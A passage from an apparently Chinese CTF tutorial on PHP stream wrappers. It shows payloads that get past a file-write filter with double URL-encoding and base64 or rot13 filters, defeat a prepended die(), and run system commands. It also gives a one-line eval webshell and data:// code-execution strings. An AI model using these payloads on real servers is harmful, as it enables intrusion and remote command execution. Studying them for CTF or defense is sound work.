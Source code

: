   一个写文件的题，但是有过滤，不允许包含 `php` , `data` , `:` 和 `.` 但是在写入操作的时候，会把 `file` 参数进行 `urldecode`，所以我们可以两次 `urldecode` 来绕过过滤，然后只需要考虑如何绕过 `<?php die('大佬别秀了');?>` 中的 `die()` 即可

  我们可以尝试使用 Base64 绕过 `die()`，Base64 的编码范围是 `0-9` , `a-z` , `A-Z` , `+` 和 `/` ，其他字符会被忽略，去掉不支持的字符，只剩下了 `phpdie` 了，因为 Base64 解码是按照 4位 一组进行解码的，所以我们需要在最终编码出来的字符串中最前面添加两个字母，以达到 Base64 解码的规则

  ```php
  // 需要两次URL编码
  GET: ?file=php://filter/convert.base64-decode/resource=1.php
  // 需要base64编码，编码后最前面添加两个字母如：aa
  POST: content=<?php system('cat f*');
  ```

  另一种方法是使用 Rot13 编码

  ```php
  // 需要两次URL编码
  GET: ?file=php://filter/string.rot13/resource=1.php
  // 需要Rot13编码
  POST: content=<?php system('cat f*');
  ```

  Rot13 解码后写入的文件内容变为了

  ```php
  <?cuc qvr('大佬别秀了');?><?php system('cat f*');
  ```

  这样就可以绕过 `die()` 了

  **input**

  ```php
  # 注意使用 php://input 的时候必须开启 allow_url_include
  <?php
    highlight_file(__FILE__);
    include($_GET['filename']);
  ?>
  ```

  ![img](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101743245.jpeg)

  当我们有写入操作的时候，可以直接写入一句话木马

  ```php
  <?php file_put_contents('muma.php', '<?php @eval($_POST[cmd]);');
  ```

### data://

- **条件**：

  - allow_url_fopen：on
  - allow_url_include： on
- **作用**：自 `PHP>=5.2.0` 起，可以使用 `data://` 数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。
- **用法**：

  ```php
  data://text/plain,<?php phpinfo();
  data://text/plain;base64,[Base64编码后的代码]
  ```
- **示例**：
